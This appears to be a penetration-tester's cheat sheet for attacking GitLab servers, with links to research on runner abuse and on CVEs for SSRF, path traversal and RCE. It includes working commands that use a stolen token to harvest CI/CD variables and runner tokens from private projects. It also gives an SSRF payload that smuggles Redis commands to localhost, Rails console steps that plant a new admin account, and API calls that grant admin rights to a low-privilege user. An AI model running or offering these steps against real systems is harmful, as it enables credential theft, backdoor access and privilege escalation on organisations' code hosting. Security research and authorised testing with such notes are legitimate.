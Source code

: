 # GitLab

- [https://devcraft.io/assets/hacktivitycon-slides.pdf](https://devcraft.io/assets/hacktivitycon-slides.pdf)
- [https://www.praetorian.com/blog/self-hosted-github-runners-are-backdoors/](https://www.praetorian.com/blog/self-hosted-github-runners-are-backdoors/)
- [https://github.com/dotPY-hax/gitlab_RCE](https://github.com/dotPY-hax/gitlab_RCE)




## Search for Secrets

- [https://embracethered.com/blog/posts/2022/hacking-gitlab-servers/](https://embracethered.com/blog/posts/2022/hacking-gitlab-servers/)
- [https://rtfm.co.ua/en/git-scanning-repositories-for-secrets-using-gitleaks/](https://rtfm.co.ua/en/git-scanning-repositories-for-secrets-using-gitleaks/)

Search for CI/CD variables and runner tokens:

```bash
TOKEN=`cat token`
GITLAB=gitlab.megacorp.local
API="https://$GITLAB/api/v4"

curl -sH "Authorization: Bearer $TOKEN" "$API/user" | jq

# 1. bash get_project_ids.sh <PAGE_NUMBER> | tee -a projects
curl -sH "Authorization: Bearer $TOKEN" "$API/groups/<GROUP_NAME_OR_ID>/projects/?include_subgroups=true&visibility=private&per_page=100&page=$1" | jq -r '.[].id'

# 2. bash get_secrets.sh
for id in `cat projects`; do
    curl -sH "Authorization: Bearer $TOKEN" "$API/projects/$id" | jq '.path'

    curl -sH "Authorization: Bearer $TOKEN" "$API/projects/$id/variables" | jq

    curl -sH "Authorization: Bearer $TOKEN" "$API/projects/$id" | jq .runners_token | jq
done
```

Search for credential leaks with [gitleaks](https://github.com/zricethezav/gitleaks):

```
$ eget -qs linux/amd64 "zricethezav/gitleaks" --to gitleaks
$ gitleaks detect -s . -v | jq '.Match + " :: " + .File'
```




## GitLab Runners Abuse

- [https://frichetten.com/blog/abusing-gitlab-runners/](https://frichetten.com/blog/abusing-gitlab-runners/)
- [https://github.com/Frichetten/gitlab-runner-research](https://github.com/Frichetten/gitlab-runner-research)




## SSRF > Redis > RCE (CE/EE)

**CVE-2018-19571, CVE-2018-19585**

- [https://gitlab.com/gitlab-org/gitlab-foss/-/issues/41293](https://gitlab.com/gitlab-org/gitlab-foss/-/issues/41293)
- [https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/](https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/)
- [https://www.exploit-db.com/exploits/49334](https://www.exploit-db.com/exploits/49334)

Also possible to use this payload (instead of IPv6) to bypass filter checks for localhost, but works only with `git://` scheme:

```
git://127.0.0.1:6379/%0a<REDIS_COMMANDS>
```




## Path Traversal > LFI > RCE (CE/EE)

**CVE-2020-10977**

- [https://xakep.ru/2020/05/26/gitlab-exploit/](https://xakep.ru/2020/05/26/gitlab-exploit/)
- [https://www.exploit-db.com/exploits/49076](https://www.exploit-db.com/exploits/49076)




## Path Traversal > File Write > RCE (EE)

**CVE-2019-19088**

- [https://gitlab.com/gitlab-org/gitlab/-/issues/36029](https://gitlab.com/gitlab-org/gitlab/-/issues/36029)




## gitlab-rails

Add new admin user from console:

```ruby
$ sudo gitlab-rails console
irb(main):001:0 > ActiveRecord::Base.logger = Logger.new($stdout)
irb(main):002:0 > User.find(1)
=> #<User id:1 @root>
irb(main):003:0 > user = User.create(:username => 'snovvcrash', :password => 'Passw0rd!', :password_confirmation => 'Passw0rd!', :admin => true, :name => 'snovvcrash', :email => 'snovvcrash@megacorp.local')
irb(main):004:0 > user.save!
irb(main):005:0 > user.confirmation_token
=> "ZVrM4KsyEdSoTJvo8kx_"
```

Then activate the account by navigating to `https://gitlab.megacorp.local/users/confirmation?confirmation_token=ZVrM4KsyEdSoTJvo8kx_`.

Enable password authentication for web (e. g., when only LDAP authentication is available):

```ruby
$ sudo gitlab-rails console
irb(main):001:0 > Gitlab::CurrentSettings.update!(password_authentication_enabled_for_web: true)
```

Grant a low-priv user admin's privileges via API:

```bash
# Check token priveleges
$ curl -sX GET -H "PRIVATE-TOKEN: $ADMIN_TOKEN" "https://gitlab.megacorp.local/api/v4/user" | jq '.is_admin'
# Grant low-priv user admin's privileges
$ curl -sX PUT -H "PRIVATE-TOKEN: $ADMIN_TOKEN" "https://gitlab.megacorp.local/api/v4/users/$LOWPRIV_ID" -d "admin=true" | jq '.is_admin'
# Revert low-priv user's original privileges
$ curl -sX PUT -H "PRIVATE-TOKEN: $ADMIN_TOKEN" "https://gitlab.megacorp.local/api/v4/users/$LOWPRIV_ID" -d "admin=false" | jq '.is_admin'
```
